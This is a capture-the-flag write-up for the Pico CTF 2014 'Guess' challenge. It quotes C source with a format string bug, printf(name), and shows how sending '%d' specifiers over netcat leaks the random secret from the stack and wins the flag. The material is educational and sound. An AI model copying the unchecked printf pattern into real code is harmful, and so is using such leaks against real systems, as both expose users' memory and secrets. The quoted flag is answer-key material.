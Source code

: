 # Pico CTF 2014 : Guess

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](guess.c).

**Hint:**
>The only way to combat secure randomness is to leak the secret.

## Write-up

Looking at the source, there are a few important lines.
```
fgets(name, sizeof(name), stdin);

    printf("Welcome to the guessing game, ");
    printf(name);
    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance
of guessing it. Good luck.\n");

    printf("What is your guess?\n");
    scanf("%d", &guess);

    if(guess == secret){
```
 
the line that has `printf(name);` is a format string vulnerability. This means
that we can read arbitrary data off of the stack, AKA leak `secret'. Also,
`scanf()` is given the `%d` modifier, meaning we need to supply the guess in
decimal form. It is crucuial to understand that while the value of `secret` is
random, it's location relative to everything else in memory is not. By
supplying some `%d`s to the program, we will get the nearby memory values, one
of which is `secret`. After some trial and error, we find that the fourth value
is `secret`!

```
 nc vuln2014.picoctf.com 4546
Hello! What is your name?
%d %d %d %d
Welcome to the guessing game, 32 -143098848 159907848 381394296

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
381394296
Wow! You guessed it!
Your flag is: leak_the_seakret
```






## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/guess.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-guess/>
